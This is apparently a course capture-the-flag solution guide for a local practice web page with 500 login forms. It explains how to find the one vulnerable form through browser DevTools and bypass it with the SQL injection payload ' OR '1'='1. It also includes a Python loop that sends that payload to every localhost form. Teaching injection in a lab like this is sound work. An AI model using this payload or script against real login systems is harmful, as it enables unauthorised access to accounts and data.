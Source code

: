 # CSSE142 SQL Injection Challenge – Solution Guide

## Problem description
You are presented with a webpage that shows **500 usernames**, each with a password input field and login button.

Your objective:
> **Find and exploit one vulnerable login form using SQL injection to reveal the flag.**

Only **one** of the login forms is vulnerable.

## Step 1: Open DevTools

Open your browser's developer tools:

- Chrome: `F12` or `Ctrl + Shift + I`
- Firefox: `F12` or `Ctrl + Shift + K`

Then go to the **Console** tab.

---

## Step 2: Find the Vulnerable Form

In the console, run:

```js
sessionStorage.getItem("vulnIndex")
'''
This returns a number like "237", which tells you which form is vulnerable to SQL injection.

---

## 3: Locate That Form

On the page, scroll down to the corresponding form:
User 237: <username> | Password: [___________] [Login]

This is the one you want to target.

---

## Step 4: Inject Payload

In the password box for that form, enter the classic SQL injection:
' OR '1'='1

sql
Copy
Edit

Then click the **Login** button.

This will cause the backend to run:

```
SELECT * FROM users WHERE username = 'xxx' AND password = '' OR '1'='1'
```

Which always evaluates to TRUE.

## Step 5: Capture the Flag
If successful, a JavaScript alert() will pop up with the flag.

## Optional: Brute Force with Script
If you couldn’t find the right form, you could automate it:

```
import requests

for i in range(1, 501):
    url = f"http://localhost:5000/login/{i}?vuln={i}"
    res = requests.post(url, data={"password": "' OR '1'='1"})
    if "FLAG" in res.text:
        print(f"Found vulnerable form at index {i}")
        break
```
